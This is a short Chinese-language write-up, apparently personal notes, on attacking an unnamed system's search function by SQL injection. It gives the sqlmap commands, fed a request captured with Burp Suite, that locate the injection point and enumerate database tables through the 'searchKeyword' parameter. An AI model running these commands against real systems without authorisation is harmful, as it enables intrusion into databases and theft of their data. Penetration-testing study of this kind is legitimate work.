 #某系统渗透过程

主要通过`sqlmap`进行渗透

###0x00 找到注入点

如图[link](15-02-15-01)

通过`burpsuite`获取此系统中某处的搜索功能 中的信息 然后保存到txt中

	python sqlmap.py -r /Users/~/Desktop/injection6.txt
	
然后获取到注入点

[link](15-02-15-02)

###0x02 查询数据库表
	
	python sqlmap.py -r /Users/~/Desktop/injection6.txt  -p searchKeyword  --tables --exclude-sysdbs 
	
[link](15-02-15-03)

###参考链接

sqlmap使用参考手册<http://drops.wooyun.org/tips/143>